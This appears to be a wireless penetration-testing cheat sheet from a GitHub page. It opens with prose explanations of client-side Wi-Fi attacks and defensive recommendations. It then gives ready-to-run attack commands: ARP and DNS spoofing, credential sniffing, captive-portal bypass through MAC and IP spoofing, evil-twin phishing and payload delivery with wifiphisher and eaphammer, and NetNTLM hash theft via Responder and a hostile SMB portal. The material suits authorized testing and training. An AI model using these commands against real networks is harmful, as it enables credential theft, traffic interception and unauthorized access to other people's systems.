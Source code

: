 # Sidejacking (Client Attacks)
Sidejacking is a technique that exploits a security weakness in authenticated websites. When a user logs in, the connection is initially secure using HTTPS. However, after authentication, the connection is redirected to an unsecured HTTP connection. The initial cookie set during the secure HTTPS connection to keep track of the user's authenticated status is sent over HTTP, making it possible for an attacker to intercept and capture the cookie content. Sidejacking leverages a common vulnerability in authenticated websites where a user begins with a secure connection over HTTPS and redirects it to an HTTP connection after authentication. The initial cookie set during HTTPS authentication to track the authenticated status of the user is subsequently sent over HTTP for later site access, making it possible for an attacker to eavesdrop and capture the authenticated cookie content.

Recommendation: To compensate for the lack of Layer 2 security, organizations need to implement more robust defenses at the upper layers. One way to limit the SSIDs that client devices connect to is by utilizing Group Policy functions and forbidding the connection to the "ANY" SSID. By doing so, end-users won't be able to connect to wireless networks that are not considered trustworthy. Educating users on the significance of confirming the identity of digital certificates before supplying sensitive information, ensuring that the root or issuing authority for the digital certificate is trusted.

# PSPF - Bypass (Client Attacks)
Public Secure Packet Forwarding (PSPF) delivers a private VLAN for each 802.11 client, preventing two clients connected to the same access point from direct communication with each other. Layer 3 routing filters and access control lists allow selective communication between clients. Using IPSec augments security in open-authentication networks.
In a wireless/IPSec environment, all traffic should traverse the IPSec gateway for security, which prevents direct attacks on client systems. However, attackers can still inject packets into the wireless network using any spoofed source MAC address and conducting ARP poisoning/spoofing attacks in an attempt to bypass restrictions.

Recommendation: Utilize AP isolation on guest networks to isolate users from one another which also provides some protection against nefarious network users. AP Isolation is a wireless network security feature that isolates all connected clients from each other. Enabling this feature enhances network security by reducing the possibility of unauthorized access to data or devices within the network.

# PNL Exploitation (Client Attacks)
The Preferred Network List (PNL) is a list of network SSIDs and one or more other SSIDs used by the network SSID. The entries in the PNL are not a secret. However, all wireless clients will periodically scan for the presence of any available access points using the SSIDs in the PNL as part of the access point selection process. An attacker passively sniffing the network can observe these probe request frames and extract the SSIDs transmitted in plaintext to produce a list of SSIDs in the station's PNL.

Recommendation: Currently, device manufacturers are working on addressing this vulnerability. Configuring devices to send probe requests without specified SSIDs; all APs respond. Randomizing MAC addresses in probe requests helps mitigate certain privacy risks associated with tracking the station's MAC address as it moves around an environment. Limit SSIDs in PNL with Group Policy, assuming users do not have administrator access to their systems. 

# Multiple SSID Impersonation (Client Attacks)
To impersonate multiple SSIDs, an attacker uses a particular wireless driver in master mode and responds to all probe requests regardless of their SSIDs. The attacker then attempts to lure client devices into a fake access point established to manipulate and compromise them.

Recommendation: Ensure client devices maintain current patch levels. Use strong Layer 2 encryption, such as WPA or WPA2, which offers strong support for the privacy of wireless traffic and assists in mitigating some client-specific attacks. Deploy wireless IDSs (WIDS). Dedicated wireless IDSs can monitor for attacks and anomalous conditions that could indicate the presence of a zero-day attack, allowing administrators to detect and react to attacks.

### Standard MiTM Attacks
      ARP Spoofing: Bettercap > arp.spoof module
      (Not needed when client connected to rogue AP because attacker already in position of MitM)
         
      DNS Spoofing: Bettercap > dns.spoof module
      
      Credentials Sniffing:
         Bettercap > net.sniff module
         $ sudo pipenv run python Pcredz -i wlan0mon -v
         $ python net-creds.py -I <interface>
         $ dsniff -i <interface>
         
    JS Injection: Bettercap > caplet beef-active

### Captive Portal Attacks
  MAC-based Authorization:
  
      1. Sniff network to find an authorized client identified by its MAC address
      2. Change interface MAC address:
         $ ifconfig wlan0 hw ether <authorized_MAC_Address> 
  
  IP-based Authorization:
  
    1. Activate IP forwarding
      $ echo 1 > /proc/sys/net/ipv4/ip_forward
      
    2. MiTM (ARP cache poisoning) between gateway & authorized client
      $ ettercap -T -q -i wlan0 -w dump -M ARP /<IP_authorized_client>/ /<IP_gateway>/
      
    3. All packets sent from the attacker will have to spoof the authorized client IP except for packets going in the LAN
      $ iptables -t nat -A OUTPUT -d ! <LAN> -j SNAT –to <IP_authorized_client>
      
    4. Increments TTL
      $ iptables -t mangle -A FORWARD -d -j TTL --ttl-inc 1;  
  
  MAC+IP-based Authorization:
  
    1. Turn interface into bridge mode:
      $ modprobe bridge
      $ brctl addbr br0
      $ brctl addif br0 <interface> 
      
    2. All frames sent by attacker to the gateway will have a spoofed source MAC address:
      $ ebtables -t nat -A POSTROUTING -o <interface> -d <MAC_gateway> -j snat –to-source <MAC_authorized_client>
      
    3. Then apply method for IP-based Authorization bypass 
  
  Phishing (Social Engineering):
  
    $ wifiphisher -aI <interface_rogue_AP> -eI <interface_deauthenticating> -iI <internet_interface> \ -p firmware-upgrade --handshake-capture handshake.pcap --essid <target_SSID> -kN
    $ wifipumpkin3 --xpulp "set interface wlan0; set ssid <SSID>; set proxy captiveflask; start"
    $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --captive-portal
    $ airgeddon.sh
    $ fluxion.sh
  
  Payload Delivery:
  
    $ wifiphisher -aI <interface_rogue_AP> -jI <interface_jamming> -p plugin_update --handshake-capture handshake.pcap -kN

### NetNTLM Hash Stealing
   Hostile Portal Attack (Redirect to SMB)
   
      $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --hostile-portal
        (HTTP traffic redirected to SMB share on attacker's machine)
      
    NBT-NS/LLMNR Poisoning
      $ Responder.py -I <interface> -wrf
